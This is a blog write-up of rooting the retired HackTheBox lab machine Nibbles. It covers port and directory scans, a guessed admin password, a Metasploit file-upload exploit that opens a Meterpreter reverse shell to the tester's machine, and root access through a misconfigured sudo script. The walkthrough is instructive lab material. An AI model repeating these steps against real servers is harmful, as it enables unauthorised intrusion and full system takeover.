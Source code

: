 ```yaml
---
layout: post
title: "Writeup: HackTheBox Nibbles - with Metasploit"
description: "Rooting Nibbles using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][]. All published writeups are for retired HTB machines.
Whether or not I use Metasploit to pwn the server will be indicated in the title.
 
# Nibbles

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.75</small>_

Let's start with a typical port scan.

```bash
sudo nmap -sS -T4 -p- 10.10.10.75

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-14 21:07 EDT
Nmap scan report for 10.10.10.75
Host is up (0.014s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
```

```bash
sudo nmap -sS -T4 -A -p 22,80 10.10.10.75

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-14 21:08 EDT
Nmap scan report for 10.10.10.75
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS                                                                                             
1   60.70 ms 10.10.14.1                                                                                          
2   60.87 ms 10.10.10.75
```

Looks like I'm exclusively dealing with the web server.
The web server home page is a blank "Hello World" page.
Looking at the source, there is a comment to go to `/nibbleblog/`.

![nibbleblog][]

I run [nikto][] on that page.

```bash
nikto -host http://10.10.10.75/nibbleblog/

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.75
+ Target Hostname:    10.10.10.75
+ Target Port:        80
+ Start Time:         2020-06-14 21:13:33 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Cookie PHPSESSID created without the httponly flag
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-29786: /nibbleblog/admin.php?en_log_id=0&action=config: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected.                                                        
+ OSVDB-29786: /nibbleblog/admin.php?en_log_id=0&action=users: EasyNews from http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should be protected.                                                         
+ OSVDB-3268: /nibbleblog/admin/: Directory indexing found.                                                       
+ OSVDB-3092: /nibbleblog/admin.php: This might be interesting...                                                 
+ OSVDB-3092: /nibbleblog/admin/: This might be interesting...                                                    
+ OSVDB-3092: /nibbleblog/README: README file found.
+ OSVDB-3092: /nibbleblog/install.php: install.php file found.
+ OSVDB-3092: /nibbleblog/LICENSE.txt: License file found may identify site software.
+ 7866 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2020-06-14 21:17:04 (GMT-4) (211 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nikto highlights an interesting `admin.php` page as well as a `README` file.
You never know what useful information could be in the README.
In this case, it returns some version information about this blog.

```markdown
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

dule - SimpleXML
* PHP module - GD
* Directory â€œcontentâ€ writable by Apache/PHP

Optionals requirements

* PHP module - Mcrypt
```

Running [gobuster][], I also identify a `/content` directory.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -u http://10.10.10.75/nibbleblog/

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog/
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/14 21:14:27 Starting gobuster
===============================================================
/content (Status: 301)
/themes (Status: 301)
/admin (Status: 301)
/plugins (Status: 301)
/README (Status: 200)
/languages (Status: 301)
===============================================================
2020/06/14 21:16:42 Finished
===============================================================
```

![content dir][]

In the `/content` directory I find `http://10.10.10.75/nibbleblog/content/private/users.xml`, which contains a username, `admin`.
`http://10.10.10.75/nibbleblog/admin.php` presents me with a login page.

With [searchsploit][], I see that there is a Metasploit module for remote code execution that requires authentication.

```bash
artis3n@kali-pop:~/shares/htb/nibbles$ searchsploit nibble
-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                          | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                           | php/remote/38489.rb
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Unfortunately, the `admin.php` login has an account lockout feature.
Either by waiting for a brute force attack to finish or by guessing, you can eventually find `admin / nibbles`.

In Metasploit, let's exploit the server with `exploit/multi/http/nibbleblog_file_upload`.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > run

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.41:4455 
[*] Sending stage (980808 bytes) to 10.10.10.75
[*] Meterpreter session 3 opened (10.10.14.41:4455 -> 10.10.10.75:46316) at 2020-06-14 22:12:55 -0400

[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed


meterpreter > getuid
Server username: no-user @ Nibbles (uid=1001, gid=1001, euid=1001, egid=1001)
meterpreter > 
[*] Stopping exploit/multi/handler
sysinfo
Computer     : 10.10.10.75
OS           : Ubuntu 16.04 (Linux 4.4.0-104-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

While meterpreter lists `no-user`, this gets me a user shell as the `nibbler` user.
I can collect the user flag.

Checking `sudo` permissions, I see that `nibbler` can run a `monitor.sh` script from its home directory as root.
Convenient!

```bash
nibbler@Nibbles:/home$ sudo -l
sudo -l


sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

It appears that this file no longer exists on the system.
Perhaps this was used to create the server, and the administrator forgot to clean up this access?
Well, I can create my own `monitor.sh` script with the content `/bin/bash`.
This gives me a root shell.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
monitor.sh/nibbler/personal/stuff/ 
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff#
```

[gobuster]: https://github.com/OJ/gobuster
[hackthebox]: https://www.hackthebox.eu
[nikto]: https://github.com/sullo/nikto
[searchsploit]: https://github.com/offensive-security/exploitdb#searchsploit

[content dir]: /assets/img/htb/nibbles/private-dirlist.png
[nibbleblog]: /assets/img/htb/nibbles/hidden-blog-dir.png
